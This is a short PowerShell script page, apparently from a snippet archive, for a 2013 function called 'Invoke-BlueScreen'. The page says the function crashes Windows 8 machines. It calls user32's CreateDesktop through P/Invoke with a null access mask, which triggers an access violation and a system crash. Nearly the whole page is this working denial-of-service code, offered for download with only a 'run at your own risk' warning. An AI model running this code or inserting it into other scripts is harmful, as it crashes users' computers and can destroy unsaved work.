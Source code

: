 ```yaml
---
pid:            4216
author:         adamdriscoll
title:          Invoke-BlueScreen
date:           2013-06-24 00:34:41
format:         posh
parent:         0

---
```


# Invoke-BlueScreen

### [download](//scripts/4216.ps1)

Causes a blue screen on Windows 8 machines. Run at your own risk!! The reason is due to an access violation caused by passing in a null value to the access mask of the CreateDesktop function. 

```posh
function Invoke-BlueScreen
{
    Add-Type "
      using System;
      using System.Runtime.InteropServices;
      public class PInvoke
      {
          [DllImport(`"user32.dll`")]
          public static extern IntPtr CreateDesktop(string desktopName, IntPtr device, IntPtr deviceMode, int flags, long accessMask, IntPtr attributes);
      }
    "

    [PInvoke]::CreateDesktop("BSOD", [IntPtr]::Zero, [IntPtr]::Zero, 0, $null, [IntPtr]::Zero)
}
```
